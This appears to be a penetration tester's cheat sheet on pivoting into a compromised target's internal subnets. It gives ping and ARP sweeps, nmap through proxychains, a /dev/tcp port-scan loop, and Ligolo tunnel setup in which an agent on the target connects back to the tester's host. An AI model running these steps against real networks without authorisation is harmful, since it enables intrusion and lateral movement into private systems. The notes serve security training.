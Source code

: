 Access private subnetworks of the target. Forwards all the service of the private subnetworks to you.

**METHOD:**

1. `ifconfig`/`ipconfig` to see if there is a private network open
2. Pivoting (methods below)
3. Host discovery
   - `alive <CIDR>` 
   - as `CIDR` you can use the internal smallest subnet, e.g. `172.16.15.4` -> `172.16.15.0/24`
   - Local Linux  ICMP
     ```bash
     for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
     ```
   - Local Linux  ARP -> interface like `tun0`
     ```bash
     arp -i [interface] -a
     ```
   - Local Windows 
     ```bash
     for %i in (1 1 254) do ping 192.168.210.%i -n 1 -w 100 | find "Reply"
     ```

1. Port discovery
   - with proxychains on the alive hosts:
     ```bash
     sudo proxychains nmap -v -Pn -sT [IP]
     ```
   - with Ligolo:
     ```bash
     sudo nmap -PE -sCV [IP]
     ```
		- Try also `-Pn` if you don't get results, ping sweep could be disabled
	- Local:
	  ```bash
	  for PORT in {1..65535}; do timeout 1 bash -c "</dev/[tcp/udp]/[INTRANET_IP]/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
	  ```
	- Transfer nmap [https://github.com/h4rithd/PrecompiledBinaries/blob/main/Linux/nmap/nmap](nmap) 
	  ```bash
	  nmap -v -n -Pn -p- --disable-arp-ping -iL alive.txt
	  ```
1. Enter in a proxychained ZSH so you don't have to type everytime

   `sudo proxychains zsh`

**TOOLS:**

- **Ligolo**: Win/Lin only 64bit, only if `nc [TUNIP] 11601` works
  1. On your machine, run `ligstart` to start the ligolo server
  2. File transfer  the agent on the target from `~/TOOLS/LIGOLO_AGENTS/`
  3. On the target:
     ```bash
     ./agent -connect [TUNIP]:11601 -ignore-cert
     ```
  4. On the ligolo server:  `session` &rarr; `Select number`
	  - Auto:
		  - `autoroute`
	  - Manual:
		  - `ifcreate --name ligolo0`
		  - `ligcreate ligolo0 [INTERNAL_CIDR]`
		  - `tunnel_start --tun ligolo0`
     - `New Interface`: If it is the first connection
     - `Existing one`: if the first one died
     - Every ligolo session is a tunnel, now, you get your ligolo session, you create an interface with that session. The session is persistentsesesion
